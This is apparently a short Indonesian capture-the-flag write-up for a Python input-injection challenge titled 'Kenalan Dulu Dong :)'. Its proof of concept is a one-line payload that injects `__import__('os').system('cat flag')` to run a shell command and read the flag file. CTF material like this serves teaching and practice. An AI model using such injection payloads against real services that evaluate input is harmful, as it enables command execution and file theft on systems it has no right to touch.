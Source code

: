 ## Judul Soal
Kenalan Dulu Dong :)

## Deskripsi Soal
Input Berbahaya pada ular

---
## Proof of Concept
- `__import__('os').system('cat flag')`
## Flag
See the flag file

## Addtionals
- Feel free to modify this code
